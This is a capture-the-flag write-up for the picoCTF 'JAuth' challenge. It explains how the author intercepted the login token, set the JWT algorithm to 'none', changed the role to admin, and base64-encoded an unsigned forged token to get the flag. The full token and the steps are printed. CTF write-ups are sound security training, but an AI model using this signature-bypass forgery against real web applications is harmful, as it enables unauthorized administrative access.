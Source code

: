 # picoCTF - JAuth

The challenge description hints at a potential vulnerability within the website. Upon accessing the site, the initial step is to log in using the provided credentials:

- Username: test
- Password: Test123!

When intercepted through a proxy like Burp, the provided credentials generate a POST request.
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/68c05bc4-a7fa-48e9-9625-57fd8adede53)
Upon forwarding this request, a subsequent GET request is observed, revealing a token. Decoding this token using Base64 reveals its structure:
![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/9bb19aa5-4515-4d08-8f12-07bd47e72692)
This token is a JWT (JSON Web Token) composed of three parts:

- Header: `{"typ":"JWT","alg":"HS256"}`
- Payload: `{"auth":1709903626143,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"user","iat":1709903626}`
- Signature: kXaVDzr3FEmIOGMSYYp6wo9PAWrkEU80WO3qzX9_ALA

The header specifies the algorithm used for token signing, which in this case is HS256. This algorithm ensures the token's integrity by preventing unauthorized modifications. However, JWT also permits the use of the "none" algorithm. By changing the algorithm to "none" in the header, the server no longer verifies the signature, allowing manipulation of the token.

Thus, by modifying the token's header to:
```
{"typ":"JWT","alg":"none"}
```
and adjusting the role to "admin" while retaining the same authentication ID as requested during login:
```
{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
we create a new token without including the signature. The final token appears as follows:
```
{"typ":"JWT","alg":"none"}{"auth":1709905054985,"agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.95 Safari/537.36","role":"admin","iat":1709905055}
```
Upon Base64 encoding, the manipulated token yields:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNzA5OTA1MDU0OTg1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMjIuMC42MjYxLjk1IFNhZmFyaS81MzcuMzYiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDk5MDUwNTV9.
```
This manipulated token successfully grants us administrative privileges, as illustrated by the obtained flag:

And we get our flag:

![grafik](https://github.com/6v4tq8mhlO23a/WriteUp/assets/76184566/65b204c2-c93f-4bf1-85a5-6a4c6fbdbac2)
